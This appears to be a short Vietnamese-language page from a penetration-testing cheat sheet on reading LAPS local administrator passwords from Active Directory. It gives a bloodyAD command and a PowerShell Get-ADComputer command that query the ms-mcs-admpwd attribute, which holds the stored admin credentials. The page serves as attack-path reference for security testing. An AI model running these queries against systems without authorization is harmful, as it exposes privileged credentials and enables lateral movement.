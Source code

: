 # ReadLAPSPassword

Trích xuất mật khẩu LAPS (Local Administrator Password Solution)

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD -u <user> -d <domain> -p <password> --host <ip> get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```

{% endcode %}

#### Windows Only

{% code overflow="wrap" %}

```
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

{% endcode %}
